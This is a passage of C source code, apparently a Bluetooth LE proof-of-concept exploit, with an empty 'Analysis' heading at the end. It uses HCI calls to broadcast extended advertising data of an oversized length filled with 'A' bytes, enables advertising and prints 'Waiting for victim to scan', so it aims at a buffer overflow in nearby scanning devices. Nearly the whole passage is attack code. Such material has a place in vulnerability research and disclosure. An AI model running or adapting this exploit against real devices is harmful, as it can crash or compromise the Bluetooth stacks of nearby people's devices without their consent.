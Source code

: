 ```c
  printf("[*] Setting extended advertising parameters...\n");
  hci_send_req(hci_socket, &rq, 1000);

  le_set_extended_advertising_data_cp *adv_data = (le_set_extended_advertising_data_cp *)buf;
  adv_data->handle = 0;
  adv_data->operation = 3;
  adv_data->fragment_preference = 1;
  adv_data->data_len = OVERFLOW_SIZE;
  adv_data->data[0] = OVERFLOW_SIZE - 1;
  memset(&adv_data->data[1], 'A', OVERFLOW_SIZE - 1);

  memset(&rq, 0, sizeof(rq));
  rq.ogf = OGF_LE_CTL;
  rq.ocf = OCF_LE_SET_EXTENDED_ADVERTISING_DATA;
  rq.cparam = adv_data;
  rq.clen = LE_SET_EXTENDED_ADVERTISING_DATA_CP_SIZE + OVERFLOW_SIZE;
  rq.rparam = &status;
  rq.rlen = sizeof(status);

  printf("[*] Setting extended advertising data...\n");
  hci_send_req(hci_socket, &rq, 1000);

  le_set_extended_advertise_enable_cp *enable = (le_set_extended_advertise_enable_cp *)buf;
  le_extended_advertising_set *set = (le_extended_advertising_set *)(buf + 2);
  enable->enable = 1;
  enable->num_of_sets = 1;
  set->handle = 0;
  set->duration = 0;
  set->max_events = 0;

  memset(&rq, 0, sizeof(rq));
  rq.ogf = OGF_LE_CTL;
  rq.ocf = OCF_LE_SET_EXTENDED_ADVERTISE_ENABLE;
  rq.cparam = buf;
  rq.clen = LE_SET_EXTENDED_ADVERTISE_ENABLE_CP_SIZE + LE_SET_EXTENDED_ADVERTISING_SET_SIZE;
  rq.rparam = &status;
  rq.rlen = sizeof(status);

  printf("[*] Enabling extended advertising...\n");
  hci_send_req(hci_socket, &rq, 1000);

  printf("[*] Waiting for victim to scan...\n");
  sleep(60);

  hci_close_dev(hci_socket);

  return 0;
}
```

## Analysis
